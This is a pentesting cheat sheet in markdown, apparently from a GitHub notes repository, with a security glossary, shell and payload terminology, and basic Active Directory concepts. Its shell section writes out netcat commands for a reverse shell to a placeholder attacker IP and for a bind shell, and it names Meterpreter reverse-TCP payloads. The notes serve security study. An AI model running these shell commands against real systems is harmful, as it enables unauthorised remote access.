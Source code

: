 # Useful tips

## Index

- [Glossary](#glossary)
- [Client-specific key areas of concern](#client-specific-key-areas-of-concern)
- [General notes](#general-notes)
- [PT initial foothold](#pt-initial-foothold)
- [SSH notes](#ssh-notes)
- [FTP notes](#ftp-notes)
- [Git commands / shell](#git-commands-shell)
- [Remote Desktop](#remote-desktop)
- [SQL connections](#sql-connections)
- [Reverse engineering](#reverse-engineering)
- [File upload](#file-upload)
- [Shells](#shells)

## Glossary

- [Session hijacking](https://owasp.org/www-community/attacks/Session_hijacking_attack)
- [Session fixation](https://owasp.org/www-community/attacks/Session_fixation)
- [OSI Model](https://en.wikipedia.org/wiki/OSI_model)

**Some terminology**
- IPS: Intrusion Protection System
- IDS: Intrusion Detection System
- CIA triangle: Confidentiality, Integrity, Availability
- HIDS: Host Intrusion Detection System
- NIDS: Network Intrusion Detection System

**Shells**
- Shell: we open a shell on the client
- Reverse shell: we make the victim connect to us with a shell
  - Attacker: `nc -lvp 4444`
  - Victim: `nc <ip_attacker> 4444 -e /bin/sh`
- Bind shell: the victim has a listener running and the attacker connects to it in order to get a shell
  - Attacker: `nc <ip_victim> 4444`
  - Victim: `nc -lvp 4444 -e /bin/sh`

**Payloads**
- Staged: Sends payload in stages, can be less stable
  - example: `windows/meterpreter/reverse_tcp`
- Non-staged: Sends exploit all at once, larger in size and won't always work
  - example: `windows/meterpreter_reverse_tcp`

**Active directory**
There can be multiple domains. This is called a tree, a parent domain and other child domains. With many trees you start to have a forest. Inside are the Organization Unites, objects.

Trust:
- Directional: one domain trust one domain
- Transactional: one domain trusts one domain and everything that it trusts

